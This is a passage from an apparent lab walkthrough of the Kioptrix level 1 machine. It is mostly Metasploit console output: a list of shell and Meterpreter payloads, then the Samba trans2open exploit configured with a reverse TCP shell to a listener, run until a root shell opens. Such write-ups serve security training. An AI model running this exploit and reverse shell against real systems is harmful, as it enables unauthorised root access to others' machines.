   10  linux/x86/meterpreter/bind_nonx_tcp                        manual  No     Linux Mettle x86, Bind TCP Stager
   11  linux/x86/meterpreter/bind_tcp                             manual  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   12  linux/x86/meterpreter/bind_tcp_uuid                        manual  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   13  linux/x86/meterpreter/reverse_ipv6_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   14  linux/x86/meterpreter/reverse_nonx_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager
   15  linux/x86/meterpreter/reverse_tcp                          manual  No     Linux Mettle x86, Reverse TCP Stager
   16  linux/x86/meterpreter/reverse_tcp_uuid                     manual  No     Linux Mettle x86, Reverse TCP Stager
   17  linux/x86/metsvc_bind_tcp                                  manual  No     Linux Meterpreter Service, Bind TCP
   18  linux/x86/metsvc_reverse_tcp                               manual  No     Linux Meterpreter Service, Reverse TCP Inline
   19  linux/x86/read_file                                        manual  No     Linux Read File
   20  linux/x86/shell/bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   21  linux/x86/shell/bind_ipv6_tcp_uuid                         manual  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   22  linux/x86/shell/bind_nonx_tcp                              manual  No     Linux Command Shell, Bind TCP Stager
   23  linux/x86/shell/bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   24  linux/x86/shell/bind_tcp_uuid                              manual  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   25  linux/x86/shell/reverse_ipv6_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   26  linux/x86/shell/reverse_nonx_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager
   27  linux/x86/shell/reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp_uuid                           manual  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell_bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind TCP Inline (IPv6)
   30  linux/x86/shell_bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Inline
   31  linux/x86/shell_bind_tcp_random_port                       manual  No     Linux Command Shell, Bind TCP Random Port Inline
   32  linux/x86/shell_reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Inline
   33  linux/x86/shell_reverse_tcp_ipv6                           manual  No     Linux Command Shell, Reverse TCP Inline (IPv6)

<b>msf5 exploit(linux/samba/trans2open) ></b> set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.222.130  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> run

[*] Started reverse TCP handler on 192.168.222.129:4444 
[*] 192.168.222.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.222.129:4444 -> 192.168.222.130:1030) at 2020-12-08 10:22:39 -0500

<p style="color:#05c820">
whoami
root
pwd
/tmp
</p>
</pre>
</details>

Set the necessary options, and run the exploit!
Congrats Matey! You are now root. Hope you enjoyed the first machine of K1optr1x series! 



[1]: https://i.imgur.com/4VJ39cH.png
[2]: https://i.imgur.com/O13Jjr0.png
[3]: https://i.imgur.com/9gwmLN0.png
[4]: https://i.imgur.com/HEWW8uU.png